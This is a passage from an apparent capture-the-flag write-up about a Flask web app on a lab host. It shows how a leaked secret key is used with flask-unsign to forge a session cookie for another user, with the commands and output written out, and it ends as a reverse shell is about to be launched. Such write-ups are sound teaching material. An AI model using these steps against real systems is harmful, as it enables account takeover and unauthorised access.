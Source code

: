 #### Cookie Generation

I'll notice that when I log into the website as gary, there's a
`session` cookie that gets set. Firefox dev tools breaks it out a bit:

![](/img/image-20230214102641081.png)

With three parts of base64-encoded data separated by `.`, that looks
like a JWT or a Flask cookie. Given the fact that this web application
is written in Flask, I'll start there.
[flask-unsign](https://github.com/Paradoxis/Flask-Unsign) is a tool for
Flask cookies. I can check if the secret key I leaked works with the
cookie by passing that as the wordlist to the `--unsign` command:



    oxdf@hacky$ flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImdhcnkifQ.Y-uqBA.o46_JCuR7NsHaRVAbUnwdhaoUfI' -w <( echo "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67" )
    [*] Session decodes to: {'username': 'gary'}
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 1 attempts
    'f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67'



I'm using the `<( )` Bash syntax to have the results of what's in the
middle be handled as if it's in a file. It matches.

With the secret I can craft cookies for any use I want. I already
enumerated the users, and I've noticed that jack has a container running
named Secrets. I'll create a cookie as jack:



    oxdf@hacky$ flask-unsign --sign --cookie "{'username': 'jack'}" --secret "f77dd59f50ba412fcfbd3e653f8f3f2ca97224dd53cf6304b4c86658a75d8f67"
    eyJ1c2VybmFtZSI6ImphY2sifQ.Y-vWgA.jUSvqhy4bQg1sgdiag_VgV_f_ec



I'll add that cookie to Firefox for `rainycloud.htb` and refresh the
page to be logged in as jack with access to the "secrets" container:

![](/img/image-20230214134651354.png)

### secrets Container

#### Shell

Now with access to the secrets container, when I run commands, they run
as UID 1000. For example, if I "Execute Command" and put in `id`, it
returns `uid=1000 gid=1000`. That's different than gary's container,
which showed UID 1337 (at least for "Execute Command" - See [Beyond
Root](#beyond-root)).

Just like with the previous container, secrets is running alpine-python,
so I'll grab a Python reverse shell from
[revshells.com](https://www.revshells.com/). It only has `python3` (no
`python`), so I'll make sure that's correct and send it as a "Execute
Command (background)", getting a shell:
